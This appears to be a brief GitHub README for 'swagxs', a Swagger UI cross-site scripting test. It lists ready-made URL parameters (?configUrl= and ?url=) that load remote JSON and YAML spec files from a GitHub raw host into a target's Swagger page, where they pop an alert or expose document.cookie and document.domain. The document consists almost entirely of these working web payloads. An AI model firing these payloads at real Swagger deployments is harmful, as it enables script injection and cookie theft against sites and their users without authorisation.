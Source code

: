 # swagxs
You can use just add this parameter to the URL of Swagger and see if it pops an alert:

```
?configUrl=https://raw.githubusercontent.com/ir3shio/swagxs/main/test.json
```

Sometimes the payload won’t work so check this one:
 
for document.cookie value 
```
?url=https://raw.githubusercontent.com/ir3shio/swagxs/main/test.yaml
```

for document.domain value
```
?url=https://raw.githubusercontent.com/ir3shio/swagxs/main/test2.yaml
```
